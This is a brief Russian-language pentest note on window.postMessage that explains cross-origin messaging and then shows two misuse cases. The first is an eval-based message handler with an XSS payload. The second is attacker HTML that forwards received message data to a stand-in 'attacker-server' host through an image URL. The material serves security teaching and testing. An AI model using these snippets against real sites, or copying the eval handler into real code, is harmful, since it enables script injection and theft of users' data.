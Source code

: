 # window.postMessage

## Intro: что такое postMessage

Это метод `cross-origin` коммуникации между элементами `Window`: между страницей и всплывающим окном этой страницы, между страницей и `iframe`, встроенным в нее, и тп

Обычно, скрипты имеют доступ к друг другу на разных страницах если, и только если, имеют одинкавый протокол, хост и порт ([same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin\_policy)). `postMessage` дает безопасный способ обойти это ограничения (если правильно использовать).

В общем, одно окно может получить ссылку на другое (например, через `targetWindow = window.opener`), а затем отправить ему `MessageEvent` с помощью `targetWindow.postMessage()`. Получающее окно тогда свободно обрабатывать это событие по мере необходимости. Аргументы, передаваемые в `window.postMessage()` (то есть «сообщение»), открываются принимающему окну через объект события.

## К чему может привести неправильное использование

### XSS

Где-то обрабатывается message:

```javascript
function (b){b.data.evalCall&&eval("("+b.data.evalCall+")")}
```

Мы отправляем сообщение

```javascript
b.postMessage({"evalCall":"alert(document.domain)"},"*")
```

Это возможно, если секция вызова postMessage является уязвимой или настройка CORS на принимающей стороне является уязвимой.

### Leak Sensitive Data

vuln page

```javascript
function parent_getUserInfo()
{
   var userdata=[name,age, ...];
   parent.postMessage(userdata);
}
```

attacker

```markup
<img src="http://attacker-server/?" id=message> 
<script>
 window.onmessage = function(e){  
  document.getElementById("message").src += "&"+e.data;
 }
</script>
```

## Tools

Есть инструмент для мониторинга использования postMessages - [https://github.com/fransr/postMessage-tracker](https://github.com/fransr/postMessage-tracker)

Оформлена как Google extension (но и в ff стартует вроде тож)



